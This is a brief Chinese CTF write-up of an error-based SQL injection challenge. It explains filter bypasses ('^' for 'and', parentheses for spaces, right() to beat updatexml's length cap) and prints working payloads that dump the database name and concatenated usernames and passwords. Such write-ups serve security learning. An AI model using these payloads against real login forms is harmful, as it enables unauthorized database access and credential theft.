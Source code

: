 知识点：

1.报错注入

2.and替换（^),空格替换（（））

3.updatexml报错长度限制，right()绕过



参考：

https://xz.aliyun.com/t/5505



1.测试过滤

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/5460D9503C7A4D0B99BAA80EC5DC62E1clipboard.png)

union和union/**/sekect被过滤了，不能使用联结查询



2.存在报错，updatexml没有被过滤，可以考虑报错注入

但是and被过滤了，这里可以使用(^)绕过

空格也被过滤了，可以使用（）绕过

payload:

```javascript
username=admin&password=pass'^updatexml(1,concat(0x7e,(select(database()))
,0x7e),1)%23
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/5B62E7AEEB2C40AB8A39B639FB1D8EDCclipboard.png)





3.因为和前面几个sql一样都是极客大赛的，直接读flag

因为报错信息最多为30位，并不能完整的爆出flag,所以这里使用right()函数

paylaod:

```javascript
?username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(
group_concat(username,password))from(H4rDsq1))),50),0x7e),1)%23
```



调整，right()函数，起始值即可读出完整flag

